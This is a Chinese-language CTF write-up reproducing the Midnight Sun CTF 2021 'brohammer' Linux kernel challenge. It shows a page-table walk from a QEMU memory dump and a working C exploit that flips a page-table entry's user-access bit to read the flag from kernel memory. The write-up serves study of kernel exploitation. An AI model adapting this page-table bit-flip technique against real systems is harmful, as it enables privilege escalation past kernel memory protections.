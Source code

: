 # [Midnight Sun CTF 2021]  Linux Kernel  本地漏洞复现 

> 很遗憾没有注册个账号现场去打这个题，没有及时拿到这个题目的附件。从各位师傅那里找到的题来复现一下。
>
> 另外hxp的大哥太强了。

### brohammer

#### 0x1 源码分析

```c
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/sched.h>
#include <linux/syscalls.h>

#ifndef __NR_BROHAMMER
#define __NR_BROHAMMER 333
#endif

unsigned long flips = 0;

SYSCALL_DEFINE2(brohammer, long *, addr, long, bit)
{
        if (flips >= 1)
        {
                printk(KERN_INFO "brohammer: nope\n");
                return -EPERM;
        }

        *addr ^= (1ULL << (bit));
        (*(long *) &flips)++;

        return 0;
}
```

内核里有一个新的`syscall`提供给我们一个接口，任意位置翻转一个bit。

#### 0x2 思路分析

由于第一次见，google了一下，找到了[Project Zero rowhammer exploit](https://www.tasteless.eu/post/2018/12/aotw-snow-hammer/)。但是太菜了没细看。

看到了hxp的WP，学到了新的思路。

> 1) The initramfs is loaded in memory at (mostly) the same physical location. Doing `pt -save -ss "this is where the flag will be on the remote host..."` yields: `Found at 0xffff880004e19000`, which is a virtual address in the direct-physical map and means that the string is located at physical address `0x4e19000`.
>
> 2) x86-64 Linux kernel direct-physical map pages are typically of size 2-MiB, and this is accomplished by setting the Page Size bit in the Page Directory Entry (PDE). Thus, the physical address `0x4e19000` is within a 2-Mib-aligned page which starts at `0x4e00000`. By using `gdb-pt-dump` or walking the page table manually one can find the physical address for the corresponding PDE: `0x18fb138`. Thus, the virtual address through the direct physical map is `0xffff8800018fb138`.
>
> 3) Access to memory from user processes is restricted by setting a special bit, called the U/S bit, in the PTE/PDE/PDPE. The bit is found at bit location 2.
>
> The flag can be read through memory by flipping a bit in the specified PDE. For some reason, `puts` would not print out the flag, so the contents had to be read explicitly.

大致步骤如下：

- 使用`gdb-pt-dump`来在内存中搜索flag的字符串，然后找到相关地址，由于亿点搞不懂的原因，我使用`qemu`启动内核的时候，按照原版的脚本打不开，就改成了`-m 512M`来启动，可能是由于这个原因，导致我跟hxp的大哥找到的地址并不一样。

  ![bddebda3e9c7aa98b63deb45429166c6.png](https://img.vaala.cloud/images/2021/04/16/bddebda3e9c7aa98b63deb45429166c6.png)

- 然后去寻找这个地址所在`page`的`page table entry`的地址。

  关于搜索这个`page table entry`地址，可以参考[OverTheWire Advent Bonanza 2018 - Snow Hammer](https://www.tasteless.eu/post/2018/12/aotw-snow-hammer/)

  以下是我的复现过程(直接贴了我每次检索的过程)：

  ```shell
  (qemu) pmemsave 0 0x8000000 memdump
  
  pwndbg > info registers cr3
  0x1fa8a880
  
  0b 1111111111111111 100010000 000000000 000000000 100101100 000000000000
                          0x110 * 8     0           0       0x12c * 8
                          0x880                               0x960
  
  
  ➜  brohammer xxd -e -g8 -c8 -a -s  0x1fa8a880  -l 0x1000 memdump
  1fa8a880: 00000000018fa067  g.......
  1fa8a888: 0000000000000000  ........
  
  ➜  brohammer xxd -e -g8 -c8 -a -s  0x18fa000  -l 0x1000 memdump
  018fa000: 00000000018fb067  g.......
  018fa008: 0000000000000000  ........
  
  ➜  brohammer xxd -e -g8 -c8 -a -s  0x18fb000  -l 0x1000 memdump
  018fb000: 00000000018fc067  g.......
  018fb008: 80000000002001e3  .. .....
  018fb010: 80000000004001e3  ..@.....
  018fb018: 80000000006001e3  ..`.....
  
  ➜  brohammer xxd -e -g8 -c8 -a -s  0x00000000018fc960  -l 0x1000 memdump
  018fc960: 800000000012c163  c.......
  018fc968: 800000000012d163  c.......
  018fc970: 800000000012e163  c.......
  018fc978: 800000000012f163  c.......
  018fc980: 8000000000130163  c.......
  018fc988: 8000000000131163  c.......
  018fc990: 8000000000132163  c!......
  018fc998: 8000000000133163  c1......
  
  0x018fc960 + base = 0xffff8800018fc960
  ```

  最终找到的`page table entry`的地址是`0xffff8800018fc960`，`page table entry`里面内容是`800000000012c163`，我们需要的修改的是倒数第二位，是我们获得权限访问这里来读取`flag`。

  ```
  018fc960: 0b01100011
                 \   \\\_ present
                  \   \\_ not writeable
                   \   \_ not user accessible
                    \____ 2 MiB page (not an index into page table)
  ```

  

- 根据(~~抄~~)hxp大哥的`exp`来写本地复现的`exp`:

  ```c
  #include <stdio.h>
  #include <unistd.h>
  
  int main() {
          int r = syscall(333, 0xffff8800018fc960, 2);
          printf("%d\n", r);
          for (unsigned long i = 0; i < 10; ++i) {
                          unsigned char *addr = (char*)0xffff88000012c000ULL + i * 0x100ULL;
                          if (*addr == 't') {
                          printf("%p: \n", addr);
                          for (unsigned char *j = addr; j < addr + 0x100 && *j; ++j) {
                                  printf("%c", *j);
                          }
                          printf("\n");
                  }
          }
          return 0;
  }
  ```

- Got it

  ```shell
  ══════════════════════════════════════════════════════════════════════════════╝
  / # ./exp
  0
  0xffff88000012c000:
  this is where the flag will be on the remote host...
  
  / # QEMU: Terminated
  ```

### Reference

[Midnightsun CTF 2021: Brohammer](https://hxp.io/blog/82/Midnightsun-CTF-2021-Brohammer/)

[OverTheWire Advent Bonanza 2018 - Snow Hammer](https://www.tasteless.eu/post/2018/12/aotw-snow-hammer/)

